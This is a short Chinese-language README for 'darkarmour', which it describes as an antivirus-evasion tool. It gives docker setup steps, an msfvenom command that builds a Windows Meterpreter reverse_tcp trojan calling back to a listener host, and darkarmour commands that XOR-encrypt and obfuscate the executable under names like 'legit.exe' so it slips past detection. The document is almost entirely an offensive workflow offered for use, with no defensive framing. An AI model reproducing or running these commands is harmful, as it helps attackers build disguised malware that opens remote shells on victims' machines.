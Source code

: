 # darkarmour
darkarmour是一个免杀工具


### 安装方法
```
docker build .
```

```
docker run -it xxxxxx bash
```



### 使用方法

#### 一、生成木马程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.129 LPORT=4444 -f exe -o exploit.exe
```
#### 二、生成混淆程序
```
python3 darkarmour.py -f /root/exploit.exe -e xor -j -k darkbyte -l 500 -u -o /root/exploit_encoded.exe
```
或者
```
python3 darkarmour.py -f bins/meter.exe --encrypt xor --jmp -o bins/legit.exe --loop 5
```
